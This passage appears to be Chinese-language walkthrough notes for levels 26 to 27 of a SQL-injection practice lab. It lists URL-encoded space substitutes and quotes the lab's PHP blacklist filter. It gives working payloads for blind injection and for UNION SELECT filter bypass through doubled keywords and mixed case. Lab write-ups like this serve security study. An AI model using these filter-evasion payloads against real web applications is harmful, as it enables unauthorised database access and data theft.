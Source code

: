 替换空格的方法有
```
%09 --TAB键（水平）
%0a --新建一行
%0c --新的一页
%0d --return
%0b --TAB（垂直）
%a0 --空格
```
最后一个会报错，在linux下可以，跟apache解析有关，测试payload为
```
id=-1'%09anandd%09'1'='1
```
<b style="font-size: 6"></style>然而</b>
测试union语句竟然失败了，经过多次反复测试发现上述替换都会被过滤，<b>`id=1'anandd'1'='1`</b>不加空格可以注入成功，网上找到一个盲注的方法，但还是有点缺陷
```         
id=1'anandd(ascii(substr(database(),1,1))>=97)anandd'1'='1
```
有待补充
##### 第二十六A关 
这一关和上一关一样，只不过sql语句多了括号
```
id=1')anandd(ascii(substr(database(),1,1))>=97)anandd('1'='1
```
##### 第二十七关
过滤了union和select，下面是过滤代码
```
function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id);	//strip out /*
$id= preg_replace('/[--]/',"", $id);	//Strip out --.
$id= preg_replace('/[#]/',"", $id);	//Strip out #.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/select/m',"", $id);	    //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);	    //Strip out spaces.
$id= preg_replace('/union/s',"", $id);	    //Strip out union
$id= preg_replace('/select/s',"", $id);	    //Strip out select
$id= preg_replace('/UNION/s',"", $id);	    //Strip out UNION
$id= preg_replace('/SELECT/s',"", $id);	    //Strip out SELECT
$id= preg_replace('/Union/s',"", $id);	    //Strip out Union
$id= preg_replace('/Select/s',"", $id);	    //Strip out select
return $id;
}
```
对比二十六关过滤空格的代码少了
```
$id= preg_replace('/[\s]/',"", $id);		//Strip out spaces
$id= preg_replace('/[\/\\\\]/',"", $id);	//Strip out slashes
```
union可以双写绕过也可以大小写绕过，select要三写才可以绕过，或者大小写绕过,%09可以替换空格，猜测二十六关提到的替换方法应该也可以，注释可以用`and'1'='1`闭合
```
id=0' uniounionn%09selecselselectectt%091,database(),3%09and '1'='1
id=0'%09UnIoN%09sElEcT%091,database(),3%09and%09'1'='1
```